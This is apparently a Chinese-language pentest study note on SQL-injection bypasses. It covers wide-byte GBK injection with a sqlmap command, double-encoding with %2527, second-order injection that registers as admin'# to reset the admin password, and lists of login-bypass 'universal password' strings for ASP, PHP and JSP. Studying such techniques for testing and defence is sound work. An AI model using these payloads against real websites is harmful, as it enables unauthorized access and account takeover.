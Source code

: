 # 注入绕过初级
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 宽字节注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: GBK编码原因
![](/assets/1D9686C1BD68278B8BCC54E99EC2B241.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法:
![](/assets/56A4F11A60114A0F775184E226B97253.png)
```
    sqlmap的应用:    sqlmap -u "URL%df"
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 二次编码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: %25=%，%27='
![](/assets/819D6BE3ABC9332640A198A04C59DBE3.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 在注入参数后加上 %2527
![](/assets/2FB8757F83C36EA38BE10100CF6E5AFD.png)
![](/assets/F9F1EB8B18B34194EF8874D1070C3F1A.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 二次注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/272D362F397C7D1EECE826BBA25CFC5A.png) 
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 
```
    适合在能提取数据的地方，例如利用注册信息成 admin'#，密码随意
    在利用找回密码，修改admin的密码
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 万能密码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/QQ20190218-182024@2x.png)
![](/assets/87E9A1A4708DED342D6152C1BC75DB04.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法:
```sql
    asp/aspx万能密码: ”or “a”=”a 、‘)or(‘a’=’a 、’or 1=1–、‘OR 1=1%00  
    PHP万能密码:  'or'='or'、 'or 1=1/* 字符型 GPC是否开都可以使用、User: something/Pass: ' OR '1'='1
    JSP万能密码: 1'or'1'='1、admin' OR 1=1/*
    
    https://blog.csdn.net/qq_36512966/article/details/72674794
```







    



